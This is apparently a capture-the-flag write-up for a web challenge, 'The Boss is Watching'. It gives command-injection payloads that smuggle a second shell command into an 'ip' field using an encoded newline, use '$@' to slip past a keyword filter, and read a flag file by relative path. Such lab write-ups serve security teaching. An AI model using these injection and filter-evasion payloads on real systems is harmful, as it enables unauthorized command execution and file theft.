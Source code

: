 ## The Boss is Watching
Task: Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

Again I have the same type of website:

![cb0a433710b24b9994aa5ae5af98af65.png](../images/cb0a433710b24b9994aa5ae5af98af65.png)

If I try the previous payload it does not work.

![c22ce645754645ce98b370ee2e44a591.png](../images/c22ce645754645ce98b370ee2e44a591.png)

The solution here was to play with `$@`
`ip=127.0.0.1%0awho$@ami`

![0250fb0aa29941558c052c210e55bb21.png](../images/0250fb0aa29941558c052c210e55bb21.png)

The final payload is:
`ip=127.0.0.1%0ac$@at<./../../../flag.txt`
![64b3426880e44bf18c5ce1cdc5265221.png](../images/64b3426880e44bf18c5ce1cdc5265221.png)